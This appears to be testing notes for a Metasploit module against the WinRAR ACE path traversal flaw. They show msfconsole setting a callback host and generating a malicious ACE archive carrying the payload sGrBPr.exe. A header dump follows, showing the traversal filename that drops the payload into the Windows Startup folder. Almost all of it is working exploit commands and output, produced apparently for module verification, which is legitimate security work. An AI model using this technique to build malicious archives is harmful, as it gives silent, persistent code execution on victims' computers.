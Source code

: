 ### Test with autogenerated payload, no additional files in archive
Output from Metasploit:
```
msf exploit(windows/fileformat/winrar_ace) > set LHOST 172.16.72.1
LHOST => 172.16.72.1
msf exploit(windows/fileformat/winrar_ace) > exploit

[*] Payload filename: sGrBPr.exe
[+] msf.ace stored at /home/msfdev2/.msf4/local/msf.ace
msf exploit(windows/fileformat/winrar_ace) > 
```

Verify checksums using `acefile`:
```
msfdev2@automata:~$ python3 acefile.py --headers .msf4/local/msf.ace
volume
    filename    .msf4/local/msf.ace
    filesize    73972
    headers     MAIN:1 FILE:1 others:0
header
    hdr_crc     0x286b
    hdr_size    49
    hdr_type    0x00        MAIN
    hdr_flags   0x9000      ADVERT|SOLID
    magic       b'**ACE**'
    eversion    20          2.0
    cversion    20          2.0
    host        0x02        Win32
    volume      0
    datetime    0x4e561810  2019-02-22 03:00:32
    reserved1   97 4f f6 aa 00 00 00 00
    advert      b'*UNREGISTERED VERSION*'
    comment     b''
    reserved2   b''
header
    hdr_crc     0x0131
    hdr_size    113
    hdr_type    0x01        FILE32
    hdr_flags   0x8001      ADDSIZE|SOLID
    packsize    73802
    origsize    73802
    datetime    0x4e55b063  2019-02-21 22:03:06
    attribs     0x00000020  ARCHIVE
    crc32       0xab7ba1d3
    comptype    0x00        stored
    compqual    0x03        normal
    params      0x000a
    reserved1   0x4554
    filename    b'C:\\C:C:../AppData\\Roaming\\Microsoft\\Windows\\Start Menu\\Programs\\Startup\\sGrBPr.exe'
    comment     b''
    ntsecurity  b''
    reserved2   b''
msfdev2@automata:~$ 
```
